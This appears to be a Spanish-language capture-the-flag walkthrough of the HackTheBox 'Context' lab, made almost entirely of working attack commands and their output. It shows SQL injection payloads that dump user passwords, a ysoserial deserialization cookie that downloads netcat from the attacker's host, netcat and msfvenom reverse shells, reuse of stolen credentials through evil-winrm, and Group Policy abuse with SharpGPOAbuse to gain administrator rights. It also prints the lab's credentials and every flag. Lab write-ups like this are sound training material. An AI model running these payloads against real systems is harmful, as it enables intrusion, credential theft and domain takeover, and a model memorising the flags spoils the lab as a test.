Resolución de el Fortress Context de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.13.37.12
Nmap scan report for 10.13.37.12
PORT STATE SERVICE
443/tcp open https
1433/tcp open ms-sql-s
3389/tcp open ms-wbt-server
Navegando en la página encontramos el directorio /Home/Staff que parece interesante
Podemos ver el código cuente con curl y un comentario nos da la flag y credenciales
❯ curl -s -k https://10.13.37.12/Home/Staff | grep \!- -A 3
<!-- TODO: Set up Abbie on the portal, she'll be taking over my duties while
Karl if I forget to do this, it's jay.teignton:admin for the portal
CONTEXT{s3cur1ty_thr0ugh_0bscur1ty}
-->
Podemos usar las credenciales que encontramos en el login de /Admin

Una vez iniciamos sesión podemos ver lo siguiente

También tenemos un campo de productos donde podemos intentar hacer una inyección sql
'+(select db_name())+'
Mirando la respuesta podemos ver que aplica y muestra el nombre de la base de datos

Seguimos enumerando la base de datos y encontramos la tabla users
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'
Si dumpeamos el campo username podemos ver un usuario
'+(select top 1 username from users order by username)+'
Lo mismo para el campo password ahora tenemos credenciales válidas
'+(select top 1 password from users order by username)+'
Después de obtener las credenciales también podemos ver la flag
'+(select password from users order by username offset 2 rows fetch next 1 rows only)+'
Tenemos el ususario "abbie.buckfast" y la contraseña "AMkru$3_f'/Q^7f?"
Podemos usarlas en /owa que parece ser un servicio de outlook

Después de iniciar sesión interesantemente podemos cambiar a otro buzón

Basta con poner un par de letras y un autocompletador nos muestra un usuario

Damos enter y nos da la opción de abrir su buzón sin proporcionar otra contraseña

Al abrir el buzón y mirar mensajes enviados podemos encontrar la flag

Además en inbox podemos ver un mensaje y un zip que podemos descargar

Después de descargar y unzipear el archivo en una carpeta podemos ver un _ViewStart.cshtml
Analizando el contenido podemos pensar en un ataque de deseralización en la cookie Profile
WebApplication/Views ❯ cat _ViewStart.cshtml
@{
Layout = "~/Views/Shared/_Layout.cshtml";
}
@using System.Text;
@using System.Web.Script.Serialization;
@{
if (0 != Context.Session.Keys.Count) {
if (null != Context.Request.Cookies.Get("Profile")) {
try {
byte[] data = Convert.FromBase64String(Context.Request.Cookies.Get("Profile")?.Value);
string str = UTF8Encoding.UTF8.GetString(data);
SimpleTypeResolver resolver = new SimpleTypeResolver();
JavaScriptSerializer serializer = new JavaScriptSerializer(resolver);
object obj = (serializer.Deserialize(str, typeof(object)) as Profile);
// TODO: create profile to change the language and font of the website
} catch (Exception e) {
}
}
}
}
Con ayuda de ysoserial crearemos una data serializada que nos descargue el netcat.exe
pc1@windows C:\CTF\ysoserial> .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c curl 10.13.14.10/netcat.exe -o C:\ProgramData\netcat.exe"
ew0KICAgICdfX3R5cGUnOidTeXN0ZW0uV2luZG93cy5EYXRhLk9iamVjdERhdGFQcm92aWRlciwgUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNScsIA0KICAgICdNZXRob2ROYW1lJzonU3RhcnQnLA0KICAgICdPYmplY3RJbnN0YW5jZSc6ew0KICAgICAgICAnX190eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknLA0KICAgICAgICAnU3RhcnRJbmZvJzogew0KICAgICAgICAgICAgJ19fdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgICAgICdGaWxlTmFtZSc6J2NtZCcsICdBcmd1bWVudHMnOicvYyBjbWQgL2MgY3VybCAxMC4xMy4xNC4xMC9uZXRjYXQuZXhlIC1vIEM6XFxQcm9ncmFtRGF0YVxcbmV0Y2F0LmV4ZScNCiAgICAgICAgfQ0KICAgIH0NCn0=
pc1@windows C:\CTF\ysoserial>
Iniciamos sesión de nuevo en /Admin y creamos una cookie Profile con la data serializada

Guardamos la cookie y al recargar no llega la petición de descarga de netcat
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.13.37.12 - - "GET /netcat.exe HTTP/1.1" 200 -
Ahora creamos una data para invocar el netcat y enviarnos una reverse shell
pc1@windows C:\CTF\ysoserial> .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c C:\ProgramData\netcat.exe -e powershell 10.13.14.10 443"
ew0KICAgICdfX3R5cGUnOidTeXN0ZW0uV2luZG93cy5EYXRhLk9iamVjdERhdGFQcm92aWRlciwgUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNScsIA0KICAgICdNZXRob2ROYW1lJzonU3RhcnQnLA0KICAgICdPYmplY3RJbnN0YW5jZSc6ew0KICAgICAgICAnX190eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknLA0KICAgICAgICAnU3RhcnRJbmZvJzogew0KICAgICAgICAgICAgJ19fdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgICAgICdGaWxlTmFtZSc6J2NtZCcsICdBcmd1bWVudHMnOicvYyBjbWQgL2MgQzpcXFByb2dyYW1EYXRhXFxuZXRjYXQuZXhlIC1lIHBvd2Vyc2hlbGwgMTAuMTMuMTQuMTAgNDQzJw0KICAgICAgICB9DQogICAgfQ0KfQ==
pc1@Windows C:\CTF\ysoserial>
Cambiamos la cookie y al recargar esta vez nos llega una shell
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.12
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
teignton\web_user
PS C:\Windows\system32> type C:\Users\Public\flag.txt
CONTEXT{uNs4fe_deceri4liz3r5?!_th33333yre_gr8}
PS C:\Windows\system32>
Mirando los logs de webdb podemos encontrar unas credenciales en texto claro
PS C:\Logs\WEBDB> type log_13.trc | Select-String TEIGNTON
????????? ??? ?????? ?????????? ??????? TEIGNTON\karl.memaybe
????????? ??? ?????? ?????????? ??????? B6rQx_d&RVqvcv2A
PS C:\Logs\WEBDB>
Si probamos conectarnos con sqsh a mssql con las credenciales, nos podemos conectar
❯ sqsh -S 10.13.37.12:1433 -U teignton\\karl.memaybe -P 'B6rQx_d&RVqvcv2A'
Copyright (C) 1995-2001 Scott C. Gray
1>
Si enumeramos un poco podemos ver la base de datos clients
1> select * from openquery("web\clients", 'select name from master..sysdatabases');
2> go
master
tempdb
model
msdb
clients
(5 rows affected)
1>
Enumerando un poco mas la base de datos podemos encontrar card_details
1> select * from openquery("web\clients", 'select name from clients..sysobjects');
2> go
BackupClients
card_details
QueryNotificationErrorsQueue
queue_messages_1977058079
EventNotificationErrorsQueue
queue_messages_2009058193
ServiceBrokerQueue
queue_messages_2041058307
(8 rows affected)
1>
Si enviamos su contenido a un txt y despues lo cateamos podemos ver la flag
1> select * from openquery("web\clients", 'select * from clients..card_details');
2> go > out.txt
1> exit
❯ cat out.txt | grep CONTEXT
CONTEXT{g1mm2_g1mm3_g1mm4_y0ur_cr3d1t}
También encontramos un binario que despues de bajarlo podemos ver que es un dll
1> select cast((select content from openquery([web\clients], 'select * from clients.sys.assembly_files') where assembly_id = 65536) as varbinary(max)) for xml path(''), binary base64;
2> go > text
1> exit
❯ cat text | base64 -d > out
❯ file out
out: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
Revisando con ayuda de dnSpy las funciones podemos ver BackupClients

Dentro de ella podemos ver credenciales entonces simplemente nos conectamos

❯ evil-winrm -i 10.13.37.12 -u jay.teignton -p 'D0ntL0seSk3l3tonK3y!'
PS C:\Users\jay.teignton\Documents> whoami
teignton\jay.teignton
PS C:\Users\jay.teignton\Documents>
Podemos ver un archivo .exe que si vemos su contenido podemos encontrar la flag
PS C:\Users\jay.teignton\Documents> dir
Directory: C:\Users\jay.teignton\Documents
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 10/7/2020 10:31 PM 11264 WindowsService.exe
PS C:\Users\jay.teignton\Documents> Select-String CONTEXT WindowsService.exe
2020)$46c273c4-b625-4cae-bba3-79fb0d3406bc
1.0.0.0M.NETFramework,Version=v4.7.2TFrameworkDisplayName.NET Framework
?A_CorExeMainmscoree.dllÿ% @CONTEXT{l0l_s0c3ts_4re_fun}
€P€8€€h€Ü�Comments"CompanyNameFFileDescriptionWindowsServiceFileVer
sion1.0.0.0FInternalNameWindowsService.exeHLegalCopyrightCopyright ©
PS C:\Users\jay.teignton\Documents>
Hay un servicio corriendo en el puerto 7734 al que podemos conectarnos con netcat
Analizando el .exe con dnSpy podemos ver TCPServer con algunas cosas

Podemos ver que la contraseña se compone por la fecha mas la cadena "-thisisleet"

Podemos comprobarlo con el parametro password que se nos indica en la función
PS C:\ProgramData> date
30 July 2022 01:26:14
PS C:\ProgramData> .\netcat.exe 127.0.0.1 7734 -v
netcat.exe : WEB.TEIGNTON.HTB [127.0.0.1] 7734 (?) open
password=2022-07-30-thisisleet
OK
Además de password vemos un parámetro command donde podemos ejecutar un binario

Sabiendo esto creamos un payload con msfvenom y montamos un servicio http
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.14.10 LPORT=443 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Descargamos el .exe, nos conectamos al servicio, y despues de dar la contraseña lo invocamos
PS C:\ProgramData> curl 10.13.14.10/shell.exe -o shell.exe
PS C:\ProgramData> .\netcat.exe 127.0.0.1 7734 -v
netcat.exe : WEB.TEIGNTON.HTB [127.0.0.1] 7734 (?) open
password=2022-07-30-thisisleet
OK
command=c:\programdata\shell.exe
CONTEXT{l0l_s0c3ts_4re_fun}
PS C:\ProgramData>
Si miramos el listener deberiamos haber recibido una shell como otro usuario
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.12
Microsoft Windows [Version 10.0.17763.1490]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
teignton\andy.teignton
PS C:\Windows\system32>
Jungando con bloodhound encontramos una ruta para elevar nuestro privilegio
Para eso lo explotaremos de la siguiente manera con ayuda de SharpGPOAbuse
Iniciamos creando un nuevo GPO y un GPLink, con cualquier nombre en este caso privesc
PS C:\ProgramData> New-GPO -Name privesc -Comment "Privilege Escalation"
DisplayName : privesc
DomainName : TEIGNTON.HTB
Owner : TEIGNTON\andy.teignton
Id : d5ea7314-db30-4c0d-89a4-9f7db3c48517
GpoStatus : AllSettingsEnabled
Description : Privilege Escalation
CreationTime : 30/07/2022 01:43:00
ModificationTime : 30/07/2022 01:43:00
UserVersion : AD Version: 0, SysVol Version: 0
ComputerVersion : AD Version: 0, SysVol Version: 0
WmiFilter :
PS C:\ProgramData> New-GPLink -Name privesc -Target "OU=Domain Controllers,DC=TEIGNTON,DC=HTB" -LinkEnabled Yes
GpoId : d5ea7314-db30-4c0d-89a4-9f7db3c48517
DisplayName : privesc
Enabled : True
Enforced : False
Target : OU=Domain Controllers,DC=TEIGNTON,DC=HTB
Order : 2
PS C:\ProgramData>
Ahora con ayuda de SharpGPOAbuse agregamos a jay.teignton a Administradores
PS C:\ProgramData> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount jay.teignton --gponame privesc
[+] Domain = teignton.htb
[+] Domain Controller = WEB.TEIGNTON.HTB
[+] Distinguished Name = CN=Policies,CN=System,DC=TEIGNTON,DC=HTB
[+] SID Value of jay.teignton = S-1-5-21-3174020193-2022906219-3623556448-1103
[+] GUID of "privesc" is: {D5EA7314-DB30-4C0D-89A4-9F7DB3C48517}
[+] Creating file \\teignton.htb\SysVol\teignton.htb\Policies\{D5EA7314-DB30-4C0D-89A4-9F7DB3C48517}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
PS C:\ProgramData>
Actualizamos la configuración y al conectarnos ahora estamos en el grupo Administrators
PS C:\ProgramData> gpupdate /force
Updating policy...
Computer Policy update has completed successfully.
User Policy update has completed successfully.
PS C:\ProgramData>
❯ evil-winrm -i 10.13.37.12 -u jay.teignton -p 'D0ntL0seSk3l3tonK3y!'
PS C:\Users\jay.teignton\Documents> net user jay.teignton | Select-String Group
Local Group Memberships *Administrators *Remote Desktop Users
Global Group memberships *Domain Users
PS C:\Users\jay.teignton\Documents>
En este punto nos dirigimos al directorio Administrator y podemos leer la flag
PS C:\Users\jay.teignton\Documents> cd C:\Users\Administrator\Documents
PS C:\Users\Administrator\Documents> dir
Directory: C:\Users\Administrator\Documents
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 10/12/2020 5:53 PM SQL Server Management Studio
d----- 10/12/2020 6:53 PM Visual Studio 2017
-a---- 7/15/2020 8:15 PM 34 flag.txt
-a---- 7/29/2020 12:28 PM 188 info.txt
PS C:\Users\Administrator\Documents> type flag.txt
CONTEXT{OU_4bl3_t0_k33p_4_s3cret?}
PS C:\Users\Administrator\Documents>